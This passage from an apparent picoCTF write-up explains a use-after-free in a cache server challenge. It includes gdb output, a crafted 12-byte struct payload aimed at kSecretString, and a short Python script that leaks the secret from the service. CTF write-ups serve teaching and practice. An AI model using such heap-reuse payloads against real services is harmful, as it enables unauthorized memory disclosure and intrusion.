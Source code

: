 ```
(gdb) print/x kSecretString
$1 = 0x8048bc8
```

Below, `s` is the socket connected to `vuln2014.picoctf.com:4548`, and `f` is a file interface to `s`, which the client requires.

Alright, lets start with the two items on our to-do list, creating then getting a cache entry with a `lifetime` of 1:

```py
assert cache_set(f,'a','bbb',1)
print cache_get(f,'a')
```

The next step is to find a function which will call `read_into_string` to read into the `free`'d `value` struct. Since `cache_get` will `free` `key` first, and then `value`, our malicious string has to be the argument of the first `realloc`. Otherwise, we might overwrite `key` or a random address instead, which won't help us at all. If we use `do_cache_set`, we'll run into this issue, because it calls `string_create` before `read_into_string`. Since `string_create` allocates an empty string, the empty string will be put at the `free`'d `value`, and `read_into_string` will read the string into the `free`'d `key`, which, like I said before, won't help us.

However, `do_cache_get` only calls `string_init` on the new `key` struct, which just sets `key->data` to a `NULL` pointer. The subsequent `read_into_string` will then read a string from the user into the `free`'d `value` struct. Yay!

So now that we know what function to call, lets construct our payload. We want both `length` and `capacity` to be greater than the length of `kSecretString` so it reads enough bytes, to be safe I just defined both of them as `\xff\xff\x00\x00`, or 65535. Then, `data` needs to be a pointer to `kSecretString`, so in little endian, `\xc8\x8b\x04\x08`. So our payload is `\xff\xff\x00\x00\xff\xff\x00\x00\xc8\x8b\x04\x08`. Alright, lets do this.

```py
print cache_get(f,'\xff\xff\x00\x00\xff\xff\x00\x00\xc8\x8b\x04\x08')
```
   
Now, we want to finish off the exploit by getting enough chars to see the entire `kSecretString`. For this, I modified the `cache_set` function to accept an arbitrary length to send to the server. 280 characters is enough to see the entire `kSecretString`. As I explained above, to actually read the string we set a cache entry with this length, then get this entry:

```py
assert cache_set(f,'a','',1,280)
print cache_get(f,'a')
```
    
So, our final program to read the value of `kSecretString` is:

```py
assert cache_set(f,'a','bbb',1)
print cache_get(f,'a')
print cache_get(f,'\xff\xff\x00\x00\xff\xff\x00\x00\xc8\x8b\x04\x08')
assert cache_set(f,'a','',1,280)
print cache_get(f,'a')
```
    